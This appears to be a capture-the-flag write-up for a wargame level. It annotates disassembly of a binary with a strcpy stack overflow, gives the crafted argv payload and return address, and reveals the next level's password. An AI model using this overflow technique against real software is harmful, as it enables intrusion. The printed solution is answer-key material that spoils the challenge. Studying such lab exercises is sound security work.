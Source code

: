 disassembly:
```assembly
   0x08048516 <+0>:	push   ebp
   0x08048517 <+1>:	mov    ebp,esp
   0x08048519 <+3>:	cmp    DWORD PTR [ebp+0x8],0x0		#we need to change argc to 0
   0x0804851d <+7>:	je     0x8048533 <main+29>
   0x0804851f <+9>:	push   0x80485f0
   0x08048524 <+14>:	call   0x8048380 <puts@plt>
   0x08048529 <+19>:	add    esp,0x4
   0x0804852c <+22>:	push   0x1
   0x0804852e <+24>:	call   0x8048390 <exit@plt>
   0x08048533 <+29>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048536 <+32>:	add    eax,0x28
   0x08048539 <+35>:	mov    eax,DWORD PTR [eax]
   0x0804853b <+37>:	push   eax
   0x0804853c <+38>:	push   0x80485f5
   0x08048541 <+43>:	call   0x8048360 <printf@plt>		#we have a printf
   0x08048546 <+48>:	add    esp,0x8
   0x08048549 <+51>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804854c <+54>:	add    eax,0x28
   0x0804854f <+57>:	mov    eax,DWORD PTR [eax]
   0x08048551 <+59>:	push   eax
   0x08048552 <+60>:	call   0x80484db <hihi>			#we send hihi func with the same arg
   0x08048557 <+65>:	add    esp,0x4				#as the one of printf...
   0x0804855a <+68>:	mov    eax,0x0				#so we can stackoverflow it...
   0x0804855f <+73>:	leave  
   0x08048560 <+74>:	ret
```
disassembly of hihi:						#some kind of strcpy function...
```assembly
0x080484db <+0>:	push   ebp
   0x080484dc <+1>:	mov    ebp,esp
   0x080484de <+3>:	sub    esp,0xc
   0x080484e1 <+6>:	push   DWORD PTR [ebp+0x8]
   0x080484e4 <+9>:	call   0x80483a0 <strlen@plt>
   0x080484e9 <+14>:	add    esp,0x4
   0x080484ec <+17>:	cmp    eax,0x13
   0x080484ef <+20>:	jbe    0x8048504 <hihi+41>
   0x080484f1 <+22>:	push   0x14
   0x080484f3 <+24>:	push   DWORD PTR [ebp+0x8]
   0x080484f6 <+27>:	lea    eax,[ebp-0xc]
   0x080484f9 <+30>:	push   eax
   0x080484fa <+31>:	call   0x80483c0 <strncpy@plt>		#strcpy - me like!
   0x080484ff <+36>:	add    esp,0xc
   0x08048502 <+39>:	jmp    0x8048513 <hihi+56>
   0x08048504 <+41>:	push   DWORD PTR [ebp+0x8]
   0x08048507 <+44>:	lea    eax,[ebp-0xc]
   0x0804850a <+47>:	push   eax
   0x0804850b <+48>:	call   0x8048370 <strcpy@plt>		#strcpy
   0x08048510 <+53>:	add    esp,0x8
   0x08048513 <+56>:	nop
   0x08048514 <+57>:	leave  
   0x08048515 <+58>:	ret 
```
(very much like utumno2)
using an external exec file...
so we try a few argv... we try and get: seg fault! for:
argv = {"AAAA", "AAAA", "AAAA", "AAAA" ,"AAAA","AAAA","AAAA","AAAA","AAAA","BBBBBBBBBBBBFFFFQQQQ"}

replace QQQQ with 0xffffdfbd

use ut5.c...

we get:
eiluquieth




